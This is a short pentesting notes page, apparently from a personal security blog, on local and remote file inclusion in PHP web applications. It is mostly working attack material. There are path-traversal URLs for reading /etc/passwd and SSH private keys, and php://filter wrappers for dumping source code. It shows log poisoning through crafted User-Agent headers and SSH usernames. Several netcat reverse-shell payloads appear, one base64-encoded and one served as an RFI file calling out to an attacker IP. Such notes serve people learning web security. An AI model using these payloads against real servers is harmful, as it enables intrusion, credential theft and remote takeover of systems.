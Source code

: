```yaml
---
title: Notes | LFI
author: Zeropio
date: 2022-04-23
categories: [Notes, Vulnerabilities]
tags: [lfi]
permalink: /notes/vulnerabilities/lfi
---
```



# Local file inclusion
**LFI** is the process to include files locate in the server through the exploiting of vulnerable inclusion.
For example:
```
http://localhost/example.php?file=../../../../../../../etc/passwd
http://localhost/example.php?file=../../../../../../windows/system32/drivers/etc/hosts
```

With the terminal we can check easily:
```console
> curl -s "http://localhost/example.php?file=/etc/passwd"
```
##### **-s**: no verbose

We can check some important files:
- **/home/user/.ssh/id_rsa ->** check credentials for a ssh connection, with **ssh2john** we can break any ssh password if its weak or we have it in a dictionary.
- **/proc/sched_debug ->**  show many running scripts
- **/proc/net/fib_trie ->** check network interfaces (with *grep -i  "host local" -B 1* we can get local ip).
- **/proc/net/tcp ->** check port. The last four digits from the second column (rem_address), if we add a **0x** in Python before we can get the port (its common to not get ports like 80 here).

###  Directory Path Traversal
If the web is sanitaze with only one path allowed, we can move using **../**:
```console
> curl -s "http://localhost/example.php?file=../../../../../../../etc/passwd"
```

The web can set and extension to the end of the path, we can escape than with: **%00** at the end of the search.

#### Wrappers
Help to escape LFI sanitazer. For example:
- **?file=file:///etc/passwd ->** get the file.
- **?file=php:///filter/convert.base64-encode/resource=file.php ->** give all the content file (including comments) in base64 (useful to get the whole source code).

###  Log Poisoning
Change logs in order to recreate a RCE.

#### Reverse Shell
We can execute code accesing **/proc/self/environ**. We can modify the header in burpsuite to add:
```php
<?passthru('nc -e /bin/bash <ip> <port>');?>
```
To execute the reverse shell.

#### Apache2
In **/var/log/apache2/access.log** we can manipulate the user agent that the log is currently saving in the logs with curl. For example:
```console
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/apache2/access.log"
```
Now we can execute code in the system.

Also, we can try to login (for example with ssh). **auth.log** will save the login attempt, if we execute the page after the login we will execute the script.
##### Maybe we need to encode the payload to base64

Another example is the **/var/log/auth.log**. We can try to log in by ssh with and invalid user and see that all the trys are been saving in the log.
If we log as a command, execute the log (loading with curl or in the web with LFI) we can execute the command and get a **reverse shell**:
- First we encode the connection (with netcat).
```console
> echo 'nc -e /bin/bash 127.0.0.1:443' | base64; echo
  bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK
```
- Then we send this "user" to the log:
```console
> ssh '<¿php system("echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMTo0NDMK | base64 -d | bash"); ?>'@127.0.0.1 
```
Then we will try to log in with any password. Now we just need to reload the log in the web, then the code is executed.
```console
> curl -s -H "User-Agent: <¿php system('whoami'); ?>" "http://localhost/example.php?file=/var/log/auth.log"
```


# Remote File Inclusion (RFI)
Load files into the server.

We can create a plain file (**.txt**) with a php content:
```php
<?php
  passthru('nc -e /bin/sh 192.168.1.134 9000');
?>
```

Then we change the url with:
```
...?index=http://<ip>/revershell.txt
```
And then we can execute code.
